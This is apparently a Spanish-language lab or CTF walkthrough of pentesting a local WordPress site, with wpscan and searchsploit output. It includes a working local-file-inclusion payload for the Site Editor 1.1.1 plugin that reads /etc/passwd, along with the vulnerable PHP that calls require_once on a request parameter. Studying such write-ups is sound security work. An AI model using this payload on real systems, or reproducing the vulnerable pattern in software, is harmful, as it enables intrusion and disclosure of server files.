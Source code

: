 Se tomó una herramienta de pentesting de wordpress con el siguiente resultado:
```python
$wpscan --url http://asucar.dl
[+] URL: http://asucar.dl/ [172.17.0.2]

Interesting Finding(s):
[...]
[+] XML-RPC seems to be enabled: http://asucar.dl/xmlrpc.php
 | [...]
[+] The external WP-Cron seems to be enabled: http://asucar.dl/wp-cron.php
 | [...]
[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | [...]
[+] WordPress theme in use: twentytwentyfour
 | [...]
 | [!] The version is out of date, the latest version is 1.3
 | [!] Directory listing is enabled
 | [...]
[i] Plugin(s) Identified:
[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
```

La existencia del archivo `xmlrpc.php` hace el sitio más vulnerable:
`XML-RPC` es una característica de wordpress que permite que los datos se transmitan, con HTTP actuando como el mecanismo de transporte y XML como el mecanismo de codificación. [fuente](https://www.hostinger.com/es/tutoriales/que-es-xmlrpc-php-wordpress-por-que-desactivarlo)

Hay una posible vulnerabilidad LFI, a través del tema `twentytwentyfour`

Sobre el ultimo plugin se encontró el siguiente exploit:
```python
$searchsploit site-editor 1.1.1
------------------------------------------------- -----------------------------
 Exploit Title                                   |  Path
------------------------------------------------- -----------------------------
WordPress Plugin Site Editor 1.1.1 - Local File  | php/webapps/44340.txt
------------------------------------------------- -----------------------------
```
## Engaño
El último exploit sugería un payload como el siguiente:
```python
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

Dado que el código está de la siguiente manera:
```php
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}
```
